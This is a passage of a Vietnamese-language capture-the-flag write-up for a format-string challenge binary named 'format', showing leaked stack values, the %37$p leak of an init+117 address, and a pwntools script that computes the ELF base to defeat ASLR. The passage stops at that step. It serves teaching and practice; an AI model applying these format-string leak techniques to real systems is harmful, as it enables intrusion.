 ```bash
['EMPTY ON PURPOSE', '7f2bcf7e9a03', '0', '7f2bcf70f142', '7fff990a1ad0', '0', '61000a786c243625', '6161616461616163', '5241545361616165', '444e457024362554', '3800000000a', '38000000380', '38000000380', '38000000380', '38000000380', '38000000380', '38000000380', '38000000380', '38000000380', '38000000380', '0', '7f2bcf7ea5c0', '0', '7f2bcf6936a5', '0', '7f2bcf7ea5c0', '0', '0', '7f2bcf7eb4a0', '7f2bcf68f6bd', '7f2bcf7ea5c0', '7f2bcf685f65', '55ddf1fb92d0', '7fff990a1be0', '55ddf1fb90c0', '7fff990a1cf0', '0', '55ddf1fb926d', '7f2bcf7eefc8', 'cdd017be270afb00']
[*] Switching to interactive mode
```
- Tại đây, mình thấy có giá trị `0x55ddf1fb926d` là địa chỉ tại vị trí `init+117`, mình sẽ dùng giá trị này để tính `base address`, bypass cơ chế ASLR và giá trị này nó nằm ở bye thứ 37.
```bash
➜  Format git:(main) ✗ ./format
➜  Format git:(main) ✗ ./format
%37$p
0x56406ae4f26d

```
- Do cơ chế `ASLR` nên giá trị này sẽ khác ở mỗi lần chạy. Bước thứ nhất, chúng ta sẽ vượt qua được cơ chế `ASLR` với đoạn code sau:
```python3
from pwn import *

# HOST = '64.227.36.245'
# PORT = 30730

context.clear(arch="amd64")

# -----------------------
def com(payload, wait=True):
	global r
	r.sendline(payload)
	if (wait):
		return r.recv()


def nonStopLeak():
	data = []
	min_val = 1
	max_val = 40
	log.progress("Starting nonStopLeaking (range: %d to %d)..." % (min_val, max_val))
	data.append("EMPTY ON PURPOSE")
	for i in range(min_val, max_val):
		leak = "%{}$lx".format(i)
		leak = com(leak).strip().decode()
		data.append(leak)

	log.success("nonStopLeaking finalized...")
	return data


# -------------- exploit -----------------------

elf = ELF("./format")

init_117 = 0x126d
r = process("./format")
input("[+] attach gdb")

payload = b'%37$p'
r.sendline(payload)

init_leak = r.recvline()
log.success("LEAK : init+117 address: {}".format(init_leak))
base_elf = int(init_leak,16) - 0x126d
```